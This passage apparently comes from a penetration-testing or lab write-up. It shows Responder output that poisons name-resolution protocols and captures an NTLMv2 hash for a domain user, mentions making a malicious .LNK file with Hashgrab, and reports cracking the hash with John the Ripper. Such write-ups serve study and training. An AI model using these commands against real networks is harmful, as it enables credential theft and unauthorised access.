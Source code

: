 ```bash
❯ sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.4.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]

--SNIP--

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 192.168.165.30
[SMB] NTLMv2-SSP Username : NARASEC\Tracy.White
[SMB] NTLMv2-SSP Hash     : Tracy.White::NARASEC:9bbf8934331a4560:7E3E7EB81FF46C2022052D262FF86FED:0101000000000000804E1194E3EEDA012C0D0C83CBDD665900000000020008004F0031003400450001001E00570
049004E002D004300420041003200580050004B00420052005500300004003400570049004E002D004300420041003200580050004B0042005200550030002E004F003100340045002E004C004F00430041004C00030014004F00310034004
5002E004C004F00430041004C00050014004F003100340045002E004C004F00430041004C0007000800804E1194E3EEDA0106000400020000000800300030000000000000000100000000200000452F70F2B66A34630BD52340E899C3B9A07
2F2D5A53D205FCBB235EA806B7FB60A001000000000000000000000000000000000000900260063006900660073002F003100390032002E003100360038002E00340035002E003200330035000000000000000000
[*] Skipping previously captured hash for NARASEC\Tracy.White
[*] Skipping previously captured hash for NARASEC\Tracy.White
[*] Skipping previously captured hash for NARASEC\Tracy.White
[*] Skipping previously captured hash for NARASEC\Tracy.White
[*] Skipping previously captured hash for NARASEC\Tracy.White
[+] Exiting...
[*] Skipping previously captured hash for NARASEC\Tracy.White
```


> You can also use the [`Hashgrab`](https://github.com/xct/hashgrab) tool by ***`XCT`*** to generate the `.LNK` file, haven't tried it before but it is worth the try at least.

- EZPZ, Cracked this user hash and got the password with `JtR`

